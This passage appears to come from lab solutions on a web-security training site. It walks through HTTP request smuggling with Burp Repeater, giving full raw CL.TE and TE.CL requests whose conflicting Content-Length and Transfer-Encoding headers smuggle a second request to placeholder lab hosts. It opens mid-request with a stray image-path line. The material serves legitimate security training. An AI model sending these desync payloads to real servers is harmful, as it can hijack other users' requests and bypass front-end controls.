 5c  
GPOST / HTTP/1.1  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 15  
  
x=1  
0  
  
`

**Note**

You need to include the trailing sequence `\r\n\r\n` following the final `0`.

The second response should say: `Unrecognized method GPOST`.

### Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

`POST / HTTP/1.1  
Host: your-lab-id.web-security-academy.net  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 35  
Transfer-Encoding: chunked  
  
0  
  
GET /404 HTTP/1.1  
X-Ignore: X`

The second request should receive an HTTP 404 response.

### Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

`POST / HTTP/1.1  
Host: your-lab-id.web-security-academy.net  
Content-Type: application/x-www-form-urlencoded  
Content-length: 4  
Transfer-Encoding: chunked  
  
5e  
POST /404 HTTP/1.1  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 15  
  
x=1  
0  
  
`
